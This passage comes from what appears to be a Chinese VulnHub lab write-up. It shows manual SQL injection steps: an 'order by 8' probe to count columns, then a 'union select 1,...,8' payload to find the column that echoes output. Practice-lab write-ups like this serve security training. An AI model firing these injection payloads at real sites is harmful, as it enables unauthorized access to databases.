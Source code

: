 ![image-20241207182753671](vulnhub靶场实战/image-20241207182753671.png)	

```
于是猜解有多少个列，这里使用order by8没有报错，在往上加数字就会报错，说明有八个列。
-1' order by 8#
```

![image-20241207183112409](vulnhub靶场实战/image-20241207183112409.png)	

```
判断哪里有回显点。其中4是回显点。
-1' union select 1,2,3,4,5,6,7,8#
```
